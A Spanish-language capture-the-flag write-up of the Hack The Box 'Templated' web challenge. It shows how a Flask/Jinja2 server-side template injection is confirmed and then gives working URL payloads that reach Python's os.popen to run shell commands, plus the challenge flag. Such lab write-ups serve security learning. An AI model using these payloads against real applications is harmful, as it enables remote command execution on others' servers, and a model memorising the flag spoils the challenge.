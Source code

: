 ```yaml
---
title: Templated HTB
date: 2023-04-19
type: challenge
author: naibu3
---
```


#web #flask #jinja2

# Templated HTB

Es uno de los challenges de la sección de *web*.

## Reconocimiento

Al acceder por el navegador, vemos una página muy simple. Como podemos leer está creada en *flask/jinja2* ([[flask]]).

Si probamos a acceder a un recurso, por ejemplo a `http://ip/hola`, veremos que se muestra `'hola'` en la página. Si probamos con `{{7*7}}`, se renderiza un `49`. Por tanto podemos suponer que existe una vulnerabilidad de [[SSTI]].

## Explotación

Para explotar dicha vuln tan solo debemos hacer una inyección de código [[python]] como la siguiente:

```url
http://ip/{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls").read()}}{%endif%}{% endfor %}
```

Lo que nos listará los recursos del directorio actual, done vemos un archivo `flag.txt`. Así que los listamos con otra inyección:

```url
http://ip/{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat flag.txt").read()}}{%endif%}{% endfor %}
```

Y ya tenemos la flag (`HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}`). Enhorabuena! Has completado el reto!